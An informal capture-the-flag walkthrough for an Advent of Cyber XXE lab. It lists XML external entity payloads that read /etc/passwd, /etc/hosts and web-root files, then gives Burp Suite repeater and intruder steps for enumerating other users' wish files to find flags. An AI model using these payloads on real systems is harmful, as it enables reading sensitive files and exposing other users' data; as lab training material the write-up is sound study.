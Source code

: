 # Title : SOC-mas XX-what-ee?
steps:
create xml file put this code:
```xml
<people> 
	<name>Glitch</name> 
	<address>Wareville</address> 
	<email>glitch@wareville.com</email> 
	<phone>111000</phone> 
</people>
<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>
<!DOCTYPE people [ 
<!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt"> ]> 
<people> 
	<name>Glitch</name> 
	<address>&ext;</address> 
	<email>glitch@wareville.com</email> 
	<phone>111000</phone> 
</people>

<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

open burp suite community edition then:
in settings > burp browser > select allow burp browser run without sandbox
now go to proxy > open browser > past url of application
select jolly's cap and see the proxy request > send it to repeater using ctrl+r > click send
after this forward request so we can see other page on application
add to wishlist
intercept request >  send on repeater
go to cart > intercept request > forward request
same for proceed to checkeout > repeater

after completing checkout  and open link in new tab shown in left corner

put is snippet in product.php repeater request above xml
```xml 
<!--?xml version=""1.0 ?-->
<!DOCTYPE foo[<!ENTITY payload SYSTEM "/etc/hosts">]
<wishlist> 
<user_id>1</user_id> 
<item> 
<product_id>&payload;</product_id> 
</item> 
</wishlist> 
```

url/wishes/wish_21.txt to access this site:
```xml 
<!--?xml version=""1.0 ?-->
<!DOCTYPE foo[<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_21/txt">]
<wishlist> 
	<user_id>1</user_id> 
<item> 
	<product_id>&payload;</product_id> 
</item> 
</wishlist> 
```

we can access other wishes by changing wish_21.txt or
send it to intruder > now mark the number and select add
then go to payload > select payload type: number & from : 1 , to : 20 >start attack
and find flag in payload 15 that is answer of question

now url/CHANGELOG
	find flag of next question 
#AOC 